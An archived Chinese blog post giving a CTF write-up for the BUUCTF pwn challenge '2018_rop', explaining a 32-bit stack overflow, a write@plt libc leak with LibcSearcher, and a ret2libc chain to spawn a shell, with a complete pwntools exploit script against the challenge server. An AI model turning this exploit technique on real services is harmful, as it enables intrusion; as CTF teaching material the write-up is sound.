




<!--yml
category: 未分类
date: 2022-04-26 14:55:03
-->

# [BUUCTF]PWN——铁人三项(第五赛区)_2018_rop_Angel~Yan的博客-CSDN博客_铁人三项(第五赛区)_2018_rop

> 来源：[https://blog.csdn.net/mcmuyanga/article/details/108939218](https://blog.csdn.net/mcmuyanga/article/details/108939218)

# 铁人三项(第五赛区)_2018_rop[32位libc泄露]

题目[附件](https://files.buuoj.cn/files/70baa0a3faa2a7b72be9efd44c04782e/2018_rop?token=eyJ1c2VyX2lkIjoxNTM3MSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MTI0N30.X3wOew.P6w8oglGVy-aaGjfUnILGvjg-qQ)

解题步骤:
例行检查，32位，开启了NX保护

试运行一下程序，一开始让我们输入，然后直接输出“Hellow,world”

32位ida载入，首先习惯性的shift+f12查看一下程序里的字符串，没有发现现成的system（‘/bin/sh’）
从main函数开始看程序

第4行的函数是我们的输入点，read的buf长度为0x100，而我们参数的大小只有0x88，可以溢出0x78个长度，足够我们构造rop攻击

没有其他信息了，经典的泄露libc类型的题目

## 利用思路：

1.  利用write函数来泄露程序的libc版本
2.  知道libc版本后去计算程序里的system函数和字符串“/bin/sh”的地址
3.  覆盖返回地址为system（‘/bin/sh’），获取shell

## 利用过程：

1.  泄露libc版本
    这边提一下write函数的原型

```
ssize_t write(int fd,const void*buf,size_t count); 
```

参数说明：
fd:是文件描述符（write所对应的是写，即就是1）
buf:通常是一个字符串，需要写入的字符串
count：是每次写入的字节数

```
payload='a'*(0x88+4)+p32(write_plt)+p32(main)+p32(0)+p32(write_got)+p32(4)
r.sendline(payload)
write_addr=u32(r.recv(4))
libc=LibcSearcher('write',write_addr) 
```

这边解释一下第一个payload
首先填充‘a’*（0x88+4）造成溢出，覆盖到返回地址，返回地址填上write函数的plt地址来调用write函数，之后跟上main函数地址（我们要将程序程序重新执行一遍，再次利用输入点来进构造rop）
p32（0）+p32(write_addr)+p32(4)是在设置write函数的参数，对应函数原型看一下，32位程序是4位，所以这边写的4，对应的64位程序是8位

2.  算出程序的偏移量，计算system和bin/sh的地址

```
offset=write_addr-libc.dump('write')     

system_addr=offset+libc.dump('system')
bin_sh=offset+libc.dump('str_bin_sh') 
```

3.  构造rop获取shell

```
payload='a'*(0x88+4)+p32(system_addr)+p32(0)+p32(bin_sh) 
```

完整EXP：

```
from pwn import *
from LibcSearcher import *

r=remote('node3.buuoj.cn',27043)
elf=ELF('./2018_rop')

write_plt=elf.plt['write']
write_got=elf.got['write']
main=elf.sym['main']

payload='a'*(0x88+4)+p32(write_plt)+p32(main)+p32(0)+p32(write_got)+p32(4)
r.sendline(payload)
write_addr=u32(r.recv(4))

libc=LibcSearcher('write',write_addr)
offset=write_addr-libc.dump('write')

system_addr=offset+libc.dump('system')
bin_sh=offset+libc.dump('str_bin_sh')

payload='a'*(0x88+4)+p32(system_addr)+p32(0)+p32(bin_sh)

r.sendline(payload)
r.interactive() 
```


匹配到了多个libc版本，选第一个
泄露libc用到了延迟绑定技术，具体的看这个[视频](https://room.wenzaizhibo.com/pc-playback/purevideo?access_token=726ADD75D51630879AC41F145263FB2D46271342B5B71FB554665CAAACCA396B&expires_in=21600&is_encrypted=0&partner_id=53865096&room_id=6002260447760249&sign=58ecd2dc4bdfc0982d137a30fac14817&timestamp=1592270674&user_number=10405946&user_role=0)介绍